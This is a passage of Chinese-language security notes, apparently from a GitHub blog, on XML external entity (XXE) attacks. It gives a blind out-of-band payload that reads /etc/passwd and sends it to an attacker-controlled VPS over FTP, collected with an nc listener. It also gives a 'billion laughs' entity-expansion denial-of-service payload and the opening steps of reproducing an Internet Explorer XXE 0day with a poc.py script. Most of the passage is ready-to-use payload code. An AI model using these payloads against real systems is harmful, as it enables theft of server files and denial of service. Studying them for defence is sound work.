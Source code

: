    3. web服务器带着回显结果访问VPS上特定的FTP或者HTTP

   4. 通过VPS获得回显（nc监听端口）

```
本地payload 1
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://vps/test.xml"> %remote;]>

test.xml
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY % trick SYSTEM 'ftp://VPS:21/%payload;'>">
%int;
%trick;

这个是先将SYSTEM的file协议读取到的内容赋值给参数实体%payload，第二步是一个实体嵌套，trick是远程访问ftp协议所携带的内容
```

6. **dos**

   ```xml
   <?xml version="1.0"?>
      <!DOCTYPE lolz [
   <!ENTITY lol "lol">
   <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
   <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
   <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
   <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
   <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
   <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
   <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
   <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
   ]>
   <lolz>&lol9;</lolz>
   ```


#### 漏洞复现：

1.生成mht、服务端的xml
python poc.py

![20190418180256.jpg](https://github.com/zhongshendoushuizhao/zhongshendoushuizhao.github.io/blob/master/img/20190418180256.jpg?raw=true)

生成
2019/04/16  17:30               256 datatears.xml
2019/04/16  17:30             1,072 msie-xxe-0day.mht
两个文件


